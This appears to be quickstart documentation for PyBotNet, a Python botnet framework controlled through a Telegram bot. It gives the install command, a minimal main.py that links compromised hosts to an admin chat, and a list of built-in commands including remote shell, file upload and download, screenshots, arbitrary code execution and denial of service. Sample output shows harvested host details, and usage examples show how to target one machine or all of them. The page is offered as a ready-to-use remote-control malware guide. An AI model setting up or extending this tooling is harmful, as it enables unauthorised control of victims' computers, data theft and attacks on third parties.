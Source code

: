
### Install PyBotNet

```console
pip3 install pybotnet -U --pre
```

!!! note
    Currently version 2 of the PyBotNet is pre-release

    `--pre`: 
        Include pre-release and development versions. By default, pip only finds stable versions.

    `-U`: make sure to upgrade framework to latest version.

---

#### The simplest PyBotNet file could look like this:


```py title="main.py"

from pybotnet import BotNet, TelegramEngine


telegram_engine = TelegramEngine(token=TELEGRAM_TOKEN, admin_chat_id=ADMIN_CHAT_ID) #(1)

botnet = BotNet(telegram_engine) # (2)
botnet.run()
```

1. create engine: Engines transfer messages between admin and botnet
2. create BotNet instance


!!! note
    * `TELEGRAM_TOKEN`: You can use telegram `@botfather` to Create new telegram API Bot and get youre `TELEGRAM_TOKEN` 
    * `ADMIN_CHAT_ID`: Get it from @userinfobot telegram bot
    * PyBotNet include default scripts, like: `/shell`, `/put_file`, `/get_file`, `/screenshot`, `/who`, ...,
     you can send `/help` to your telegram bot and see more detail..

#### Run code:

```console 

python3 main.py
```

#### telegram engine

open telegram and send `/who` to your bot; If you have done the steps correctly, you recive message like this:

```
scripts_name:
    echo
    who
    shell
    screenshot
    put_file
    get_file
    runcode
    openurl
    dos
    schedule

mac_addres: 228362405364
os: Linux
global_ip: 5.10.30.35
country: Iran, Islamic Republic of
bot_name: no_name
local_ip: {'192.168.23.1'}
host_name: {'system_name'}
system_user: root
up_time: 0:00:01
current_route: /
pid: 148352
cpu_count: 8
pybotnet_version: 2.0.8b0
from cache: True
```


you can send `/help` to see help page, or send `/help <script_name>` to recive more help about specific script.

for example send `/help screenshot`, You will receive:

```
NAME:
screenshot

DESCRIPTION:
get screen shot
    * `[mac-address] /screenshot`
    or
    * `/screenshot`

    example command: 
        * `94945035671481 /screenshot`
        * `/screenshot` 

    return: img or img-download-link
    

script_version: 0.0.1
default_script: True

___________________________
scripts_name: ['echo', 'who', 'shell', 'screenshot', 'put_file', 'get_file', 'runcode', 'openurl', 'dos', 'schedule']
mac_addres: 228362405364
os: Linux
global_ip: 5.10.30.35
country: Iran, Islamic Republic of
bot_name: no_name
use_proxy: False
```

in top of message you see script name, description, syntax and examples.

for run screenshot script you have two choice:

* Run the script on all clients that are listening to Telegram bot (for now we have one!)
* Run script on one specific system

for run script on all client send `/screenshot`.

bot if you need get screen shot on specific system you need send `[mac_addres] /screenshot` for our case: `228362405364 /screenshot`

in some case like `/shell` you need to run it just for one system.
